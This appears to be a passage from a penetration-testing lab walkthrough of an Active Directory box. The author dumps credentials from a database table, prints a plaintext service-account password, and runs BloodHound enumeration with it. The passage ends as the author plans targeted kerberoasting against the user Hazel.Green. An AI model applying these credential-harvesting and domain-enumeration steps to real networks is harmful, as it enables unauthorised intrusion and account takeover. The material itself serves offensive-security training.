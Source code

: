Read database tables

```
SELECT * FROM hrappdb.INFORMATION_SCHEMA.TABLES;
```

![[PG/Active Directory/attachments/Pasted image 20250709101112.png]]

Read the sysauth table

```
select * from sysauth;
```

We get credentials 

![[PG/Active Directory/attachments/Pasted image 20250709101205.png]]

```
hrapp-service:Untimed$Runny
```

Attempt WinRM, but creds won't work.

Run bloodhound

```
python3 bloodhound.py -d 'hokkaido-aerospace.com' -u 'hrapp-service' -p 'Untimed$Runny' -c all -ns 192.168.194.40
```

![[PG/Active Directory/attachments/Pasted image 20250709101606.png]]

Import this data into Bloodhound 

![[PG/Active Directory/attachments/Pasted image 20250709101642.png]]

Mark this hrapp-service as owned 

This user as GenericWrite over Hazel.Green

![[PG/Active Directory/attachments/Pasted image 20250709101900.png]]

Who is Hazel?

She's a member of IT and TIER-2 ADMINS which may be interesting 

![[PG/Active Directory/attachments/Pasted image 20250709102029.png]]

Checking out these groups. They don't seem to have much control.

Maybe we can get a foothold with Hazel.Green

Let's try targeted kerberoasting to get Hazel.Green creds

![[PG/Active Directory/attachments/Pasted image 20250709102626.png]]

I'll try this script https://github.com/ShutdownRepo/targetedKerberoast/blob/main/targetedKerberoast.py
